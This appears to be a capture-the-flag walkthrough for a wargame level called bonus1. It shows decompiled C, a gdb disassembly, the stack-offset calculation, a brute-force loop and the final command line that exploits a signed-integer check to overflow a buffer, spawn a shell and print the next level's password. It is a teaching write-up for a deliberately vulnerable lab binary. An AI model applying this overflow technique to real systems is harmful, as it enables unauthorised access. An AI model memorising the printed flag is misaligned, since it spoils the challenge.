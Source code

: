 # Bonus 01 Walkthrough

## Binary analysis

The binary takes two arguments: a number and a string. It converts the first argument to an integer (n), checks if n > 9, and then copies n*4 bytes from argv[2] to a stack buffer using memcpy. If n equals 0x574f4c46 (the magic value 'FLOW'), it spawns a shell.

### Key decompiled code
```c
int n = atoi(argv[1]);
if (n > 9)
    return 1;
memcpy(&buffer, argv[2], n * 4);
if (n == 0x574f4c46)
    execl("/bin/sh", "sh", 0);
```

## Exploitation

- The check only prevents n > 9, but negative values are not handled. By passing a large negative value, we can copy more data than intended and overwrite the stack, including the variable n.
- We craft a payload that overwrites n with 0x574f4c46.

We calculate the offset between the dest of memcpy and the variable n, from the disassembly of main :

```
(gdb) b *0x08048478
Breakpoint 1 at 0x8048478
(gdb) r 9 hello
Starting program: /home/user/bonus1/bonus1 9 hello

Breakpoint 1, 0x08048478 in main ()
(gdb) disass
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave  
---Type <return> to continue, or q <return> to quit---
   0x080484a4 <+128>:	ret    
End of assembler dump.
(gdb) p/x $eax
$1 = 0xbffff604
(gdb) p/x $esp + 0x3c
$2 = 0xbffff62c
```

We find the offset to be 40 bytes (0xbffff62c - 0xbffff604).

We craft the payload with the offset and the magic value:

```python
payload = b"A"*40 + b"\x57\x4f\x4c\x46"[::-1]
```

We want to memcpy 44 bytes (40 + 4) to the buffer, so we need to pass a negative value because n * 4 = 44 means n = 11, which is greater than 9, so not possible. With a negative value, we can pass a value that is not greater than 9 but once casted when memcpy is called, it will be greater than 9. With a simple -1, it segfaults.

We brute-force a working negative value:
```python
payload = b"A"*40 + b"\x57\x4f\x4c\x46"
for i in range(-2147483648, 10):
    os.system(f"./bonus1/bonus1 {i} {payload} 2>/dev/null && echo OK for {i}")
```

Working exploit:
```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
```

## Commands used

```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
cat /home/user/bonus2/.pass
```

## Result

After running the exploit, we get a shell as bonus2 and can read the password:

```
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
 